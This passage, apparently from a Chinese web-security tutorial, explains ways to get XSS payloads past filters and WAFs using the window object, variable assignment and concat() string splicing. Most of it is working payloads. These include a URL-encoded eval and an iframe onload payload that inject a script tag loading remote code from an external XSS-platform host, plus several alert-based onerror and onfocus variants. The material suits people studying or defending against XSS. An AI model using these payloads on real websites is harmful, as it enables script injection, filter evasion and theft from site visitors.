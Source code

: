 &lt;details open ontoggle=eval(%61%70%70%65%6e%64%43%68%69%6c%64%28%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%78%73%73%2e%74%66%2f%65%65%57%27) &gt;

[![](https://p0.ssl.qhimg.com/t015ab1d79776d3c4c2.png)](https://p0.ssl.qhimg.com/t015ab1d79776d3c4c2.png)

### <a name="header-n63"></a>window对象

window和top类似，比如：  &lt;img src=x onerror=window.alert(1) &gt;

拼接一样的  &lt;img src=x onerror=window[‘al’%2B’ert’](1) &gt;

其他操作，参照上一章。

通过赋值，也是我们常见的，看个例子：

&lt;img src=x onerror=_=alert,_(/xss/) &gt;<br>
&lt;img src=x onerror=_=alert;_(/xss/) &gt;<br>
&lt;img src=x onerror=_=alert;x=1;_(/xss/) &gt;

[![](https://p2.ssl.qhimg.com/t013ffc9e3ddb931102.png)](https://p2.ssl.qhimg.com/t013ffc9e3ddb931102.png)

短一点的&lt;body/onfocus=_=alert,_(123)&gt;

[![](https://p3.ssl.qhimg.com/t01a2d30932b4908d0d.png)](https://p3.ssl.qhimg.com/t01a2d30932b4908d0d.png)

函数赋值，也比较常见

&lt;body/onfocus=”a=alert,a`/xss/`”&gt;

### <a name="header-n75"></a>concat()

concat方法在实际应用中，不仅仅可以用于连接两个或多个数组，还可以合并两个或者多个字符串。

[![](https://p1.ssl.qhimg.com/t0125c2a074a2adf41f.png)](https://p1.ssl.qhimg.com/t0125c2a074a2adf41f.png)

例如：   &lt;iframe onload=location=’javascript:alert(1)’&gt;拦截

[![](https://p0.ssl.qhimg.com/t017239579954d20695.png)](https://p0.ssl.qhimg.com/t017239579954d20695.png)

使用concat来拼接字符串javascript:alert(1)

&lt;iframe onload=location=’javascri’.concat(‘pt:aler’,’t(1)’)&gt;

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d3c2e0979fe1c60e.png)

假设concat没被过滤，可以用来干扰waf判断

&lt;iframe onload=s=createElement(‘script’);body.appendChild(s);s.src=’http://x’.concat(‘ss.tf/’,’eeW’); &gt;

[![](https://p0.ssl.qhimg.com/t01473beebaa29a9a3d.png)](https://p0.ssl.qhimg.com/t01473beebaa29a9a3d.png)
